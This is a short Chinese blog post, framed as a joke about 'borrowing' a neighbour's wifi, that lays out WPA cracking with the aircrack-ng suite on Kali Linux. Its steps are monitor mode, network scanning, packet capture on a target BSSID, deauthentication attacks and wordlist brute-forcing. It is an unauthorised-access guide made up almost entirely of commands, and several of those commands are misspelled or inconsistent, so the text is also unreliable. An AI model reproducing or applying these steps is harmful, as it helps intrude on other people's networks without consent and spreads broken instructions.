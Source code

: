 ```yaml
---
layout:     post
title:      借用隔壁老王wifi攻略
category:   life
description: 借用隔壁老王wifi攻略
---
```

这篇文章如题，详细的内容不描述。

System : Kali Linux
Tool airmon-ng , 可以探针wifi

1. 检测wifi 的存在
<pre class="prettyprint">
iwcofing
</pre>

2. Check kill
<pre class="prettyprint">
airman-ng check kill
</pre>

3. 查看无线网卡
<pre class="prettyprint">
airmon -ng
</pre>

4. 开启无线网卡 
<pre class="prettyprint">
airmon -ng  start wlan0mon
</pre>

5. 查找无线网络
<pre class="prettyprint">
airodump-ng eth0
</pre>

6. 网络抓包
<pre class="prettyprint">
airodump-ng -w vutfile -c 1 —bssid MacAddress wlan0mon
</pre>

7. ARP 发包
<pre class="prettyprint">
aireplay-ng -0 0 -a MacAddress wlan0mon
</pre>

8. 暴力破解
<pre class="prettyprint">
aircrack-ng outfile1.cap -w /your_world_list_path
</pre>